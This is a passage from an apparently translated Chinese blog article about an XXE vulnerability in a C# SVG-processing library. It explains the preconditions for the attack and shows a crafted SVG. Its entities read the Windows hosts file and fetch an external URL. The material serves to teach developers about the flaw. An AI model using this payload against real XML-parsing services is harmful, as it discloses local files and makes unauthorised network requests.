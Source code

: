 ```
# A special comment indicating that XXE attack was performed successfully.
#</polygon>
</svg>
```

这是机器上的 hosts 文件——小心地隐藏在 SVG 文件中，没有任何外部表现。

主机内容来自哪里？额外的网络请求来自哪里？好吧，让我们弄清楚。

# 关于 XXE 袭击事件

那些知道 XXE[袭击](https://pvs-studio.com/en/blog/terms/6546/)的人可能已经弄清楚发生了什么。如果你没有听说过 XXE 或者已经忘记了它是什么，我强烈推荐你阅读下面这篇文章:“[由于 XML 文件处理带来的漏洞:理论和实践中 C#应用中的 XXE](https://pvs-studio.com/en/blog/posts/csharp/0918/)”。在文章中，我谈了什么是 XXE，攻击的原因和后果。理解本文的其余部分需要这些信息。

让我提醒你，执行 XXE 攻击你需要:

*   可能受到危害的用户数据；
*   具有不安全配置的 XML 分析器。

如果 XML 解析器处理的受损数据以某种形式返回给攻击者，攻击者也会受益。

在这种情况下，“所有的星星都对齐了”:

*   受损数据是用户发送给应用程序的 SVG 文件；
*   不安全配置的 XML 解析器——我们在 SVG 处理库中有它；
*   解析器的工作结果以“处理过的”SVG 文件的形式返回给用户。

# 受损数据

首先，记住 [SVG 格式是基于 XML](https://en.wikipedia.org/wiki/Scalable_Vector_Graphics) 的。这意味着我们可以在 SVG 文件中定义和使用 XML 实体。这些是 XXE 所需要的实体。

尽管“虚拟”SVG 文件在浏览器中看起来很正常，但它包含两个实体的声明:

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE polygon [
  <!ENTITY queryEntity 
   SYSTEM "https://files.pvs-studio.com/rules/ccr.xml">
  <!ENTITY hostsEntity 
   SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts">
]>
<svg id="Layer_1" 
     data-name="Layer 1" 

     viewBox="0 0 1967 1933.8">
  <style type="text/css">
    ....
  </style>
  ....
  <polygon>&queryEntity;</polygon>
  <polygon>&hostsEntity;</polygon>
</svg>
```
